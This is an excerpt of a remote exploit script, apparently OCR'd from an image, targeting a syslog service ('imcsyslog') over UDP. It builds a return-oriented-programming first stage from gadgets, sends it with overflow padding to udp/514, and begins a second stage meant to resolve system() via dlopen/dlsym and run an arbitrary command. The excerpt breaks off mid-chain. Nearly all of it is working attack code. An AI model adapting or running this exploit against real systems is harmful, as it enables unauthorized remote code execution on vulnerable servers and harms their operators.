 ```
first_stage = rop(
    # the stack write gadget (`eax_to_stack` above) writes eax to [esp + edx*8]
    zero_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    pop_ebx,
    # points somewhere in the bss, just needs to be writable for the eax_to_stack gadget
    e.bss(0x5fc0),

    # the second stage goes to udp/65535, which the application binds but doesn't
    # seem to use for anything. The only thing not completely deterministic in the exploit
    # is the fd number of this port, which seems to be quite reliably 27 but sometimes 28.
    # We get its fd from a class member, and we get the class via a singleton ::instance function.
    # [root@vm bin]# lsof | grep syslog | grep UDP | grep 65535
    # imcsyslog 24741      root   27u     IPv4           39655685       0t0        UDP *:65535
    get_instance,
    mov_eax_eax_plus_0x5c,
    eax_to_stack,                   # write the handle to the stack

    # write the read count to the stack
    zero_edx,
    inc_edx,
    inc_edx,
    inc_edx,
    inc_edx,

    zero_eax,
    add_eax_25f,
    # picked up by the above into ebx, written to by eax_to_stack, just needs to be writable
    e.bss(second_stage_offset_into_bss - 0x80),
    0x41414141,
    eax_to_stack,  # write the handle to the stack
    ret_C,
    e.plt['read'],
    0x41414141, 0x41414141, 0x41414141,
    pop3_ret,
    0x41414141,     # placeholder for the fd of udp/65535
    e.bss(second_stage_offset_into_bss),
    0x41414141,     # placeholder for the read count
    pop_eax,
    e.bss(second_stage_offset_into_bss),
    xchg_eax_esp
)
assert '\0' not in first_stage

print('* Sending first stage to udp/514')
# print repr(first_stage)
s_514 = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s_514.sendto(SYSLOG_FORWARD_HEAD + 'A'*48 + first_stage + '\0',
             (IP, PORT))
s_514.close()

# the second stage does a dlopen/dlsym to get the address of the system function,
# then executes the given command via it.
second_stage = rop(
    e.plt['dlopen'],                # get libc handle
    pop2_ret,
```
